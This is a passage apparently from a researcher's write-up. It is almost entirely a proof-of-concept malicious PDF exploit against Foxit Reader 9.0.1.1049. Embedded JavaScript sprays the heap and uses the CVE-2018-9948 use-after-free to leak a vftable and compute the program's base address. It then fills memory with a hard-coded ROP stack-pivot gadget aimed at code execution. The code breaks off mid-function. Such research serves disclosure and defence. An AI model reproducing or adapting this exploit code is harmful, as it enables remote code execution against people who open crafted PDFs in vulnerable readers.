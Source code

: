 <p class="cn" markdown="1">Of course, I developed an additional poc with a heap spray just incase the heap chunk leak would fail.</p>

### poc-with-a-heap-spray-99-percent.pdf

```JavaScript
%PDF 
1 0 obj
<</Pages 1 0 R /OpenAction 2 0 R>> 
2 0 obj
<</S /JavaScript /JS (

var heap_ptr  = 0;
var foxit_base = 0;

function heap_spray(size){
    var arr = new Array(size);
    for (var i = 0; i < arr.length; i++) {
    
        // re-claim and stack pivot
        arr[i] = new ArrayBuffer(0x10000-0x8);
        var claimed = new Int32Array(arr[i]);

        for (var j = 0; j < claimed.length; j++) {
            // stack pivot from FoxitReader.exe v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
            claimed[j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak(){
    /*
        Foxit Reader Typed Array Uninitialized Pointer Information Disclosure Vulnerability
        ZDI-CAN-5380 / ZDI-18-332 / CVE-2018-9948
        Found by: bit from meepwn team
    */

    // alloc
    var a = this.addAnnot({type: "Text"});

    // free
    a.destroy();

    // reclaim
    var test = new ArrayBuffer(0x60);
    var stolen = new Int32Array(test);

    // leak the vftable
    var leaked = stolen[0] & 0xffff0000;

    // a hard coded offset to FoxitReader.exe base v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
    foxit_base = leaked-0x01f50000;
}

function reclaim(){
    /*
        This function reclaims the freed chunk, so we can get rce and I do it a few times for reliability.
        All gadgets are from FoxitReader.exe v9.0.1.1049 (sha1: a01a5bde0699abda8294d73544a1ec6b4115fa68)
    */
    var arr = new Array(0x10);
```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo